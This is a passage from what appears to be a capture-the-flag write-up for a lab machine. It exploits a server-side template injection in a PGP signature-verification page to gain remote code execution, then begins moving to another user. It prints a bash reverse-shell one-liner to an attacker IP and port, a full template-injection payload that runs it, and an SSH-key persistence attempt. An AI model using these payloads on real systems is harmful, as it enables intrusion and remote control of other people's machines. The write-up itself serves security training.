 Now let's go back to `/guide` and enter the GPG public key and signed text that we just generated.

Great! Our signature is valid, but more importantly, we see it reflects our username `emsec` in the message. This is a good sign because we can manipulate this name to reflect our input. Let's try SSTI payloads.

![signature result](result.png)

### Find 

We generate the PGP public key and PGP signed message in the same way as before. By including the {{7*7}}, we successfully load the payload for SSTI.

![output of ssti](ssti_1.png)

 
* ssti diagram from Hacktricks

![ssti](ssti_2.png)

Now we will do the same thing of modifying the username, generating the key, etc., to get RCE and have a rev shell

The reason we base64 the reverse shell is that certain characters are not allowed for the username in PGP keys

* encode the shell to base64

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.173/4444 0>&1'" | base64
```

* The finall payload :

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNzMvNDQ0NCAwPiYxJwo= | base64 -d | bash').read() }}

```

## atlas –> silentobserver

### Enumeration :

I tried to add my public SSH key to the Atlass user, but I got a `Read-only file system` error.

```bash
atlas@sandworm:~/.ssh$ ls
authorized_keys
atlas@sandworm:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCrvOsMQHqYKD7JfCOM4HExbn1Xd4thzE8owKTZzvRry1aaLSi3EumO9pLySC2h9ItTTWlMl1zGl68lzwRbrxgeVbNzw423T/Hzou+RqjsMzbSdvf<snippet>MH0vXHfDoUe5FZbUwZ+S4rgVhwYOniT6ecBWUouwn5C/gb/N85ym2taZTX+2wQNL723s+fdIBtsW3GK5/0vLSuKPxBEa9xkErNuC46oS/1sGsz0k32ZwG+5magDf8YGxlanefgli+09FdCtu8gHJd+T4cmgNYQZ1dA7emysCvNgVC7TSqcfBEGM= root@emsec" >> authorized_keys
<mysCvNgVC7TSqcfBEGM= root@emsec" >> authorized_keys
bash: authorized_keys: Read-only file system
```
